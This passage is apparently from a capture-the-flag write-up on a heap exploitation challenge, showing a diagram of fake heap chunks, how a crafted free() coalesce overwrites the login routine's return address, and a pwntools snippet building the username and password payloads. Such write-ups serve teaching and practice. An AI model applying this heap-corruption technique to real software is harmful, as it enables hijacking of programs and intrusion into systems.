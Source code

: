 ```text
 (bk)          v                               |     (fd)          v
@ 0x4398       +--------+--------+--------+    |    @ 0x2424       +--------+--------+--------+
               | 0x0000 | 0x4564 |      |0|    |                   | 0x4398 | 0x4564 |      |0|
               +--------+--------+--------+    |                   +--------+--------+--------+
                             |                 +------------------------+
                             |
                             +-------------------------------------+
                                                                   |
                                                    `FAKE_CHUNK_1` |
                                                     (fd->fd)      v
                                                    @ 0x4564       +--------+--------+--------+
                                                                   | 0x1230 | 0x007f |      |0|
                                                                   +--------+--------+--------+
                                                                        |        |
                                                                        v        v
```

That is, with the setup, `free(password)` will coalesce `chunk2` with **FAKE_CHUNK_2** and **FAKE_CHUNK_3**, and modify the fields, **FAKE_CHUNK_3**'s `bk` and **FAKE_CHUNK_2**'s `fd`. Therefore, the return address for `<login>` will be modified to `0x4564` with the modification to `FAKE_CHUNK_2`'s `fd`.

## Exploit

> setup the heap as described [above](#heap-setup)

1. **chunk2**
   
   > setup the metadata for **chunk2** need to use the input for `username`  
   
   The metadata for **chunk2** starts from `+ 0x10` from **chunk1**'s data field. Therefore, the input for `username` should be `0x10` bytes of padding, `0x4398` in little endian, and `0x2424` in little endian.

2. **FAKE_CHUNK_3**
   
   > setup the metadata for **FAKE_CHUNK_3** need to use the input for `password`  
   
   Specially crafted the **FAKE_CHUNK_3** at `0x2424` which is the start of the `data` field for `chunk2`, a.k.a. the input for `password`. Therefore, the input for `password` should be `0x2` bytes of padding, `0x4564` in little endian.

```python
from pwn import *
username = b'A' * 0x10 + p16(0x4398) + p16(0x2424)
password = b'B' * 0x2 + p16(0x4564)
```


